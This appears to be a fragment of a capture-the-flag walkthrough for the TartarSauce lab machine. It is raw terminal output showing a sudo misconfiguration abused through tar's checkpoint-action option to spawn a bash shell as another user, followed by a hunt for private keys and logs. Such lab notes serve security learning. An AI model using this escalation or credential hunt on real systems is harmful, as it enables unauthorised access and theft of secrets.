 

www-data@TartarSauce:/dev/shm$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
www-data@TartarSauce:/dev/shm$ ls -lah /bin/tar 
-rwxr-xr-x 1 root root 404K Nov 17  2016 /bin/tar
www-data@TartarSauce:/dev/shm$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)



https://gtfobins.github.io/gtfobins/tar/


sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash


onuma@TartarSauce:/dev/shm$ id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)


onuma@TartarSauce:~$ ls
shadow_bkp  user.txt

onuma@TartarSauce:~$ ls -lah 
total 48K
drwxrw---- 7 onuma onuma 4.0K Jan 15 10:42 .
drwxr-xr-x 3 root  root  4.0K Feb  9  2018 ..
lrwxrwxrwx 1 root  root     9 Feb 17  2018 .bash_history -> /dev/null
-rwxrw---- 1 onuma onuma  220 Feb  9  2018 .bash_logout
-rwxrw---- 1 onuma onuma 3.8K Feb 15  2018 .bashrc
drwxrw---- 2 onuma onuma 4.0K Feb  9  2018 .cache
drwxr-x--- 3 onuma onuma 4.0K Jan 15 10:40 .config
drwx------ 2 onuma onuma 4.0K Jan 15 10:42 .gnupg
-rwxrw---- 1 onuma onuma   52 Feb 17  2018 .mysql_history
drwxrw---- 2 onuma onuma 4.0K Feb 17  2018 .nano
-rwxrw---- 1 onuma onuma  655 Feb  9  2018 .profile
drwxrw---- 2 onuma onuma 4.0K Feb 15  2018 .ssh
-rwxrw---- 1 onuma onuma    0 Feb  9  2018 .sudo_as_admin_successful
lrwxrwxrwx 1 root  root     9 Feb 17  2018 shadow_bkp -> /dev/null
-r-------- 1 onuma onuma   33 Feb  9  2018 user.txt


Possible private SSH keys were found!
/home/onuma/.config/lxc/client.key


/home/onuma/.config/lxc/client.key
/home/onuma/.config/lxc/client.crt
/home/onuma/.gnupg/pubring.gpg
/home/onuma/.gnupg/gpg.conf
/home/onuma/.gnupg/trustdb.gpg


/var/log/syslog
/var/log/auth.log
